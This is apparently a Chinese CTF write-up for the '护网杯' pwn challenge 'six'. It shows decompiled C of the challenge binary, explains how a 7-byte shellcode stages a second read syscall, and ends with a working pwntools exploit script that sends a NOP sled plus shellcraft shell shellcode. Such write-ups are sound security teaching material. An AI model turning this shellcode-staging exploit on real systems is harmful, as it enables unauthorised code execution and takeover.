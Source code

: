 ```yaml
---
layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-10-1
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> six


# six

源码如图

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *); // ST08_8@1
  size_t v4; // rax@1
  char *v5; // rbx@1
  size_t v6; // rax@1
  int result; // eax@1
  __int64 v8; // rcx@1
  char s; // [sp+10h] [bp-20h]@1
  __int64 v10; // [sp+18h] [bp-18h]@1
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址
                                                // dest可执行
                                                // fake_stack可写可读
  v3 = dest;                                    // dest地址赋值给v3
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);// dest可执行
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result; // rax@2
  signed int i; // [sp+18h] [bp-8h]@1
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}
```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()
```

至于那个长度b36，可以在调试的时候测试出来。

